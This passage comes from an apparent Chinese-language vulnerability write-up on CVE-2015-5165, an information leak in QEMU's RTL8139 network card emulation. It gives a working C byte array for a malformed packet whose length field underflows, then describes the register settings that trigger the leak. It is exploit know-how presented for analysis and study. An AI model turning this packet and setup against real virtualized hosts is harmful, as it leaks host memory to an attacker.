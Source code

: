 在这个包中需要构造的就是16位总长度了，`#define IP_HEADER_LENGTH(ip) (((ip->ip_ver_len)&0xf) << 2)`的长度为`5<<2`是20，因此需要构造`ip->ip_len`长度为`19(0x13)`，实现了漏洞构造`ip_data_len`为`0xffff`。

```c
hlen = IP_HEADER_LENGTH(ip);
ip_protocol = ip->ip_p;
ip_data_len = be16_to_cpu(ip->ip_len) - hlen;
```

最后是一个tcp数据包，tcp数据包没有什么需要特别构造的，正常构造即可。

![tcp_packet](https://raw.githubusercontent.com/ray-cp/ray-cp.github.io/master/_img/2020-03-08-qemu-pwn-cve-2015-5165信息泄露漏洞分析/tcp_packet.jpg)

最后构造出来的`packet`数据如下：

```c
/* malformed ip packet with corrupted header size */
uint8_t malformed_eth_packet[]={
    0x52, 0x54, 0x00, 0x12, 0x34, 0x57, 0x52, 0x54, 0x00, 0x12, 0x34, 0x57,  // 6 bytes dst mac addr, 6 bytes src mac addr
    0x08, 0x00, 0x45, 0x00, 0x00, 0x13, 0xde, 0xad, 0x40, 0x00, 0x40, 0x06,  // 2 bytes type, 0x0800 is ip, one byte (4 bits ip version, 4 bits ip header len), one bytes TOS, 2 bytes total len(0x0013, 0x13-0x5<<2=0xffff which will cause vuln), 2 bytes id, 2 bytes fragment offsets, one bytes ttl, one byte protocol(6 means IP protocol)
    0xff, 0xff, 0x7f, 0x00, 0x00, 0x01, 0x7f, 0x00, 0x00, 0x01, 0x04, 0x00, // 2 bytes checksum, 4 bytes src ip addr, 4 bytes dst ip addr,  2 bytes src port
    0x04, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x50, 0x10, // 2 bytes dst port, 4 bytes serial number, 4 bytes ack number, 2 bytes len(4 bits tcp header len)
    0x00, 0x00, 0xff, 0xff, 0x00, 0x00// 2 bytes window size, 2 bytes checksum, 2 bytes urge pointer
};
```

第二部分是网卡寄存器的配置，主要是为了能够成功触发漏洞与泄露信息，需要配置网卡。包括为了开启`transmitter`以及`receiver`，需要配置`bChipCmdState`为`CmdTxEnb`以及`CmdRxEnb`；为了开启`cp_transmitter`以及`cp_receiver`，需要配置`CpCmd`为`CPlusTxEnb`以及`CPlusRxEnb`；还需要配置`TxConfig`为`TxLoopBack `以及配置`RxConfig`为`AcceptMyPhys`。
